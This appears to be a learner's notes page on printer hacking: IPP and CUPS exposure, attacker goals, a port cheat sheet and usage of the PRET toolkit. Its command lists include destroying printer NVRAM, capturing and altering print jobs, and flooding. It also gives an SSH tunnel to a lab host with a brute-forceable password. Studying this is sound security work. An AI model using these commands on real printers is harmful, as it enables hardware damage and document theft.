


# Printer Hacking

## The Internet Printing Protocol (IPP) 631

When an IPP port is open to the internet, it is possible for anyone to print to the printer or even transfer malicious data through it (using it as a middleman for attacks).

An open IPP port can expose a lot of sensitive information such as printer name, location, model, firmware version, or even printer wifi SSID.

## Why attackers target printers / print servers

* **Exposed printers (networked devices)**
  * Often have web admin panels, open ports (IPP 631, HTTP/HTTPS, sometimes Telnet/FTP), and outdated firmware — easy low-effort targets.
  * Can leak sensitive documents (jobs stored in memory/flash) or credentials shown in admin UIs.
  * Can be pivot points into internal networks if reachable from other hosts.
* **Print servers (CUPS, Windows Print Server, Raspberry Pi acting as server)**
  * Run full OS stacks and services (CUPS, Samba, SSH) — more software = more vulnerabilities.
  * Misconfiguration (open to Internet, weak SSH passwords, permissive CUPS access controls) allows remote job submission, admin access, or remote code execution.
  * Attractive for attackers who want to abuse a trusted host to distribute malware, harvest credentials, or relay spam/DDoS.

## Typical attacker goals

* **Information theft** — capture printed documents or job metadata.
* **Persistence / lateral movement** — use compromised print server to reach other hosts.
* **Service disruption** — flood the printer/server to cause denial-of-service.
* **Abuse** — send unwanted print jobs (porn/propaganda), print confidential docs, or exploit vulnerabilities to run code.

## Common attack vectors (high level)

* Publicly exposed management interfaces or IPP/LPD ports.
* Weak SSH passwords on a host that can tunnel to localhost:631 (as you noted).
* Unpatched firmware or vulnerable CUPS/Samba versions.
* Misconfigured access control in `cupsd.conf` or Samba shares.
* Default credentials in embedded printer web UIs.

## Toolkit



#### File Listing

* `pret.py` - Executable main program
* `capabilities.py` - Routines to check for printer language support
* `discovery.py` - Routines to list printers using SNMP broadcast
* `printer.py` - Generic code to describe a printing device
* `postscript.py` - PS specific code (inherits from class printer)
* `pjl.py` - PJL specific code (inherits from class printer)
* `pcl.py` - PCL specific code (inherits from class printer)
* `helper.py` - Help functions for output, logging, sockets, etc.
* `codebook.py` - Static table of PJL status/error codes
* `fuzzer.py` - Constants for file system fuzzing
* `mibs/*` - Printer specific SNMP MIBs
* `db/*` - database of supported models
* `lpd/*` - Scripts for LPD fuzzing



## Locating printers

```
python2 pret.py
```

## Usage

```
usage: pret.py [-h] [-s] [-q] [-d] [-i file] [-o file] target {ps,pjl,pcl}

positional arguments:
  target                printer device or hostname
  {ps,pjl,pcl}          printing language to abuse

optional arguments:
  -h, --help            show this help message and exit
  -s, --safe            verify if language is supported
  -q, --quiet           suppress warnings and chit-chat
  -d, --debug           enter debug mode (show traffic)
  -i file, --load file  load and run commands from file
  -o file, --log file   log raw data sent to the target
```

## Exploiting

There are exactly three options you need to try when exploiting a printer using PRET:

1. ps (Postscript)
2. pjl (Printer Job Language)
3. pcl (Printer Command Language)

You need to try out all three languages just to see which one is going to be understood by the printer. \
Sample Usage:\
`python pret.py {IP} pjl`\
`python pret.py laserjet.lan ps`\
`python pret.py /dev/usb/lp0 pcl`&#x20;

(Last option works if you have a printer connected to your computer already)

After running this command, you are supposed to get shell-alike output with different commands. Run `help` to see them.

<figure><figcaption></figcaption></figure>

After connecting to a printer device, you will see the PRET shell and can execute various commands:

```
$ ./pret.py laserjet.lan pjl
      ________________
    _/_______________/|
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.25
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de>
  |           |   ô| ||
  |___________|   ô| ||
  | ||/.´---.||    | ||        「 cause your device can be
  |-||/_____\||-.  | |´           more fun than paper jams 」
  |_||=L==H==||_|__|/

     (ASCII art by
     Jan Foerster)

Connection to laserjet.lan established
Device:   hp LaserJet 4250

Welcome to the pret shell. Type help or ? to list commands.
laserjet.lan:/> help

Available commands (type help <topic>):
=======================================
append  debug    edit    free  id    ls       open      restart   timeout  
cat     delete   env     fuzz  info  mirror   printenv  selftest  touch    
cd      df       exit    get   load  mkdir    put       set       traversal
chvol   disable  find    help  lock  nvram    pwd       site      unlock   
close   display  format  hold  loop  offline  reset     status    version  

laserjet.lan:/> ls ../../
-      834   .profile
d        -   bin
d        -   dev
d        -   etc
d        -   hp
d        -   hpmnt
-     1276   init
d        -   lib
d        -   pipe
d        -   tmp
laserjet.lan:/> exit
```

A list of generic PRET commands is given below:

```
help      List available commands or get detailed help with 'help cmd'.
debug     Enter debug mode. Use 'hex' for hexdump:  debug [hex]
load      Run commands from file:  load cmd.txt
loop      Run command for multiple arguments:  loop <cmd> <arg1> <arg2> …
open      Connect to remote device:  open <target>
close     Disconnect from device.
timeout   Set connection timeout:  timeout <seconds>
discover  Discover local printer devices via SNMP.
print     Print image file or raw text:  print <file>|"text"
site      Execute custom command on printer:  site <command>
exit      Exit the interpreter.
```

## Commands in PS mode

```
id         Show device information.
version    Show PostScript interpreter version.
devices    Show available I/O devices.
uptime     Show system uptime (might be random).
date       Show printer's system date and time.
pagecount  Show printer's page counter.

lock       Set startjob and system parameters password.
unlock     Unset startjob and system parameters password.
restart    Restart PostScript interpreter.
reset      Reset PostScript settings to factory defaults.
disable    Disable printing functionality.
destroy    Cause physical damage to printer's NVRAM.
hang       Execute PostScript infinite loop.

overlay    Put overlay eps file on all hardcopies:  overlay <file.eps>
cross      Put printer graffiti on all hardcopies:  cross <font> <text>
replace    Replace string in documents to be printed:  replace <old> <new>
capture    Capture further jobs to be printed on this device.
hold       Enable job retention.

set        Set key to value in topmost dictionary:  set <key=value>
known      List supported PostScript operators:  known <operator>
search     Search all dictionaries by key:  search <key>
dicts      Return a list of dictionaries and their permissions.
resource   List or dump PostScript resource:  resource <category> [dump]

dump       Dump dictionary:  dump <dict>
  Dictionaries: - systemdict - statusdict - userdict 
                - globaldict - serverdict - errordict
                - internaldict - currentsystemparams
                - currentuserparams - currentpagedevice

config     Change printer settings:  config <setting>
  duplex        - Set duplex printing.
  copies #      - Set number of copies.
  economode     - Set economic mode.
  negative      - Set negative print.
  mirror        - Set mirror inversion.
```

## Commands in PJL mode

```
id         Show device information.
status     Enable status messages.
version    Show firmware version or serial number (from 'info config').
pagecount  Manipulate printer's page counter:  pagecount <number>
printenv   Show printer environment variable:  printenv <VAR>
env        Show environment variables (alias for 'info variables').
set        Set printer environment variable:  set <VAR=VALUE>

display    Set printer's display message:  display <message>
offline    Take printer offline and display message:  offline <message>
restart    Restart printer.
reset      Reset to factory defaults.
selftest   Perform various printer self-tests.
disable    Disable printing functionality.
destroy    Cause physical damage to printer's NVRAM.
flood      Flood user input, may reveal buffer overflows.

lock       Lock control panel settings and disk write access.
unlock     Unlock control panel settings and disk write access.
hold       Enable job retention.

nvram      NVRAM operations:  nvram <operation>
  nvram dump [all]           - Dump (all) NVRAM to local file.
  nvram read addr            - Read single byte from address.
  nvram write addr value     - Write single byte to address.

info       Show information:  info <category>
  info config      - Provides configuration information.
  info filesys     - Returns PJL file system information.
  info id          - Provides the printer model number.
  info memory      - Identifies amount of memory available.
  info pagecount   - Returns the number of pages printed.
  info status      - Provides the current printer status.
  info ustatus     - Lists the unsolicited status variables.
  info variables   - Lists printer's environment variables.
```

## Commands in PCL mode

```
selftest   Perform printer self-test.
info       Show information:  info <category>
  info fonts      - Show installed fonts.
  info macros     - Show installed macros.
  info patterns   - Show user-defined patterns.
  info symbols    - Show symbol sets.
  info extended   - Show extended fonts.
```

## CUPS server/**Print server**


Note also: An ssh access to the machine allows you to set up ssh tunneling, opening all CUPS features and providing you an ability to use attached printers. SSH password can be easily brute-forced (weak password).\
An example command for ssh tunneling:

```
ssh printer@10.10.93.66 -T -L 3631:localhost:631
```

After doing so, you can easily add the CUPS server in your VM's printer settings and even try to send some printing jobs.Try out different techniques and have fun!


CUPS is a modular printing system for Unix-like computer operating systems which allows a computer to act as a print server. A computer running CUPS is a host that can accept print jobs from client computers, process them, and send them to the appropriate printer. CUPS consists of a print spooler and scheduler, a filter system that converts the print data to a format that the printer will understand, and a backend system that sends this data to the print device

🖨️ What is a **Print Server**?

A **print server** is a device (usually a **computer** or **dedicated hardware box**) that:

* **Manages access to one or more printers**
* **Accepts print jobs** from other computers over a network
* **Queues and processes** those jobs
* **Sends them to the correct printer**

#### 🔄 **Print Spooler**

A **print spooler** is a software program that:

* **Temporarily stores print jobs** in a queue (usually on disk or in memory).
* **Manages the order** in which jobs are sent to the printer.
* **Enables multitasking**, so users can continue working or send more print jobs while earlier ones are still being printed.

**Why it's important:**

Without a spooler, the computer would have to wait for each print job to finish before continuing, which would slow down the system.

**Think of it like:**

> A waiting room for print jobs — it holds all the documents until the printer is ready to print them.

***

#### 🗓️ **Scheduler**

The **scheduler** is responsible for:

* **Managing and prioritizing** the print jobs in the spooler.
* **Determining which job gets printed next** based on criteria like time received, user permissions, or printer availability.
* **Delegating tasks** to other parts of the system (like the filter or backend).

In CUPS, the **scheduler is the central controller**. It listens for incoming print jobs from clients, adds them to the queue, applies necessary processing (like filtering and formatting), and sends the job to the appropriate printer through the backend.

***

#### 🔧 Example in CUPS:

1. **Client sends a print job.**
2. **CUPS scheduler receives the job**, places it in the **spooler**.
3. Scheduler **filters/format the job** as needed.
4. Scheduler **sends the job to the backend**, which communicates with the printer.
5. Printer prints the job.

***

#### Summary

| Component     | Role                                                              |
| ------------- | ----------------------------------------------------------------- |
| **Spooler**   | Holds and queues print jobs.                                      |
| **Scheduler** | Manages the queue, processes jobs, and sends them to the printer. |

***

**🏡 Do Homes Have Print Servers?**

**Usually, no — most home networks don’t have a dedicated print server.**\
But let’s break it down so you can see **when and why** one might be used.



***

## Cheat sheet

<figure><figcaption></figcaption></figure>

## Common Ports Used by Printer Servers (e.g., CUPS, Windows Print Server)

| Port Number | Protocol/Service                 | Description                                                                           |
| ----------- | -------------------------------- | ------------------------------------------------------------------------------------- |
| **631**     | IPP (Internet Printing Protocol) | Default port for CUPS and many network printers for print jobs and management         |
| **515**     | LPD (Line Printer Daemon)        | Older printing protocol still used in some setups                                     |
| **9100**    | HP JetDirect / RAW Printing      | Raw TCP printing — often called "port 9100 printing" or "RAW"                         |
| **139**     | SMB (Server Message Block)       | Windows file and printer sharing (NetBIOS Session Service)                            |
| **445**     | SMB over TCP/IP                  | Modern Windows file and printer sharing without NetBIOS                               |
| **80**      | HTTP                             | Web interfaces for printer admin pages or CUPS web UI (if enabled)                    |
| **443**     | HTTPS                            | Secure web interfaces for admin or management                                         |
| **22**      | SSH                              | Used if the print server allows SSH access (e.g., for tunneling or remote management) |
